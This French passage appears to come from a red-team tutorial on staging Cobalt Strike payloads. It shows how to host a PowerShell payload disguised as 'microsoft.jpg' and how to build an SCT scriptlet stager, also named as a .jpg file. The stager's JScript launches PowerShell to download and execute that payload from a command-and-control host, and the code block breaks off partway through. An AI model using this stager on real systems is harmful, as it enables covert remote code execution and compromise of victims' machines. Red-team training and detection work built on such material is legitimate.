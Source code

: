 Enregistrer le payload dans un fichier nommé `microsoft.jpg`

![bdef5d195c0947fc1d9e29c3545288b5.png](/img/911b3d0ac5254ff8abb15ac406e2861d.png)

Héberger ce fichier sur le serveur Cobalt Strike /updates/microsoft.jpg

`Host a file`

![8bed5e015386aac5b90e3a5735c4dd8b.png](/img/665c32ab25d7486fa043601be40d5337.png)

Penser à mettre le MIME TYPE à text/plain

![f9d760f78825f8cf514b9cd6f4fcd6d1.png](/img/7c0947c28d014a7b8edb537260e3e896.png)

6. Fichier SCT 

La prochaine étape du processus est la création d'un fichier SCT qui sera utilisé pour exécuter le payload PowerShell que nous venons de construire.

Nous nous inspirons de ce PoC pour construire notre stagger: [https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019](https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019){:target="_blank"}

Enregistrer le script suivant sous `microsoftftp.jpg`

```
<?XML version="1.0"?>
<scriptlet>
    <registration description="Bandit" progid="Bandit" version="1.00" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}">
        <!-- Proof Of Concept - Casey Smith @subTee -->
        <!-- @RedCanary - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct -->
        <script language="JScript">
            <![CDATA[
                var r = new ActiveXObject("WScript.Shell").Run("powershell.exe iex (iwr 'http://192.168.1.94:80/updates/microsoft.jpg')");
            ]]>
        </script>
    </registration>

    <public>
```
